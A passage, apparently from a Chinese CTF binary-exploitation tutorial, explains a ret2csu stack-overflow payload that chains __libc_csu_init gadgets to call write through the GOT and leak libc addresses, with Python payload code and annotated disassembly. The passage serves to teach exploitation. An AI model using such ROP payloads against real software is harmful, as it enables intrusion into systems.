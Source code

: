 先来看一下payload1，我们分段来看：

```python
payload1='a'*136 #栈溢出
payload1+=p64(pop_rbx_rbp_r12_r13_r14_r15_ret) #劫持程序流到pop_gadgets
payload1+=p64(0)+p64(1) #为了实现有且只有一次跳转，控制rbx==0，rbp==1；另外注意gadgets中有add rbx,1
payload1+=p64(write_got_addr)+p64(0x8)+p64(write_got_addr)+p64(0x1) #控制r12==write_got_addr;r13==0x8;r14==write_got_addr;r15==0x1
payload1+=p64(mov_gadget)   										#间接控制：call write_got_addr;rdx==0x8;rsi==write_got_addr;edi==0x1
    																#实现：write(0x1,write_got_addr,0x8)
payload1+=p64(0xdeadbeef)*7+p64(main_addr)                          #call write后由于不跳转会继续执行如下汇编：
################################################################################################################################################
.text:00000000004006A6 loc_4006A6:                             ; CODE XREF: __libc_csu_init+36↑j
.text:00000000004006A6                 add     rsp, 8               #p64(0xdeadbeef)抵消add rsp,8
.text:00000000004006AA                 pop     rbx                  #rbx、rbp、r12、r13、r14、r15经过pop后为0xdeadbeef
.text:00000000004006AB                 pop     rbp
.text:00000000004006AC                 pop     r12
.text:00000000004006AE                 pop     r13
.text:00000000004006B0                 pop     r14
.text:00000000004006B2                 pop     r15
.text:00000000004006B4                 retn                         #p64(main_addr):pop rip，执行main函数
```

强调一点，payload1中p64(0xdeadbeef)的数量为7，不能多也不能少，其中第一个p64(0xdeadbeef)的作用是抵消“add rsp,8”对stack的影响（栈的生长方向是由高地址到低地址【x86、x64】），再补充一个错误的payload：

```python
payload1='a'*136+p64(pop_rbx_rbp_r12_r13_r14_r15_ret)+p64(0)+p64(1)+p64(write_plt_addr)+p64(0x10)+p64(write_got_addr)+p64(0x1)+p64(mov_gadget)
```

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1623396906959-e6713489-b988-4cf0-a044-9c59576e6b79.png)

如上图所示，call是一个错误的地址，正常的payload如下：

```python
payload1='a'*136+p64(pop_rbx_rbp_r12_r13_r14_r15_ret)+p64(0)+p64(1)+p64(write_got_addr)+p64(0x10)+p64(write_got_addr)+p64(0x1)+p64(mov_gadget)
```

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1623396819347-25bf33d3-349f-495f-9275-0ec2935a1d45.png)

**<font style="color:#F5222D;">注意这里的call一定是函数的got地址而不是函数的plt地址，因为call是将当前RIP的下一条指令压入stack然后jmp到对应的地址，下图箭头指向的地方是一条jmp指令，我们不能去call一条jmp指令。（</font>****<font style="color:#F5222D;">plt中存放的是jmp指令）</font>**

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1623397714399-9b620723-1ca0-43b7-aa58-aa156b2fdc13.png)

回到正题，这样我们就可以泄露出write函数的真实地址进而泄露出libc基地址：
